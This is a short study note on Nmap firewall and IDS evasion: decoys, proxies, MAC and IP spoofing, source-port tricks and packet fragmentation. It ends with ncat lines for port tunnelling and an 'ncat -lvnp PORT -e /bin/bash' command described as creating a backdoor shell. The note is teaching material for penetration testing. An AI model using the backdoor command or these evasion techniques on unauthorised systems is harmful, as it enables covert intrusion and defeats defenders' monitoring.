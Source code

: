 ```yaml
---
dg-publish: true
---
```







## ==Controlling the MAC/IP/Port for Evasion==

### Decoy(s)

- Using decoys makes your IP address mix with other “decoy” IP addresses. Consequently, it will be difficult for the firewall and target host to know where the port scan is coming from.
- Using the `-D` option, you can add decoy source IP addresses to confuse the target.

### Proxy

- Use an HTTP/SOCKS4 proxy. Relaying the port scan via a proxy helps keep your IP address unknown to the target host.
- This technique allows you to keep your IP address hidden while the target logs the IP address of the proxy server. You can go this route using the Nmap option `--proxies PROXY_URL`.

### Spoofed MAC Address

- Spoof the source MAC address. Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`.
- This technique is tricky; spoofing the MAC address works only if your system is on the same network segment as the target host.

### Spoofed IP Address

- Spoof the source IP address. Nmap lets you spoof your IP address using`-S IP_ADDRESS`.
- Spoofing the IP address is useful if your system is on the same subnetwork as the target host; otherwise, you won’t be able to read the replies sent back.

### Fixed Source Port Number

- Use a specific source port number. Scanning from one particular source port number can be helpful if you discover that the firewalls allow incoming packets from particular source port numbers, such as port 53 or 80.
- Without inspecting the packet contents, packets from source TCP port 80 or 443 look like packets from a web server, while packets from UDP port 53 look like responses to DNS queries.
- You can set your port number using `-g` or `--source-port` options.

## ==Packets with Specific Length==

- Fragment IP data into 8 bytes

```Plain
-f
```

- Fragment IP data into 16 bytes

```Plain
-ff
```

- Fragment packets with given MTU

```Plain
--mtu VALUE
```

- Specify packet length

```Plain
--data-length NUM
```

## ==Port Hopping==

- You can use the command `ncat -lvnp PORT_NUMBER` to listen on a certain TCP port.

## ==Port Tunnelling==

- ncat -lvnp 443 -c "ncat TARGET_SERVER 25”

## ==Non-Standard Ports==

- `ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.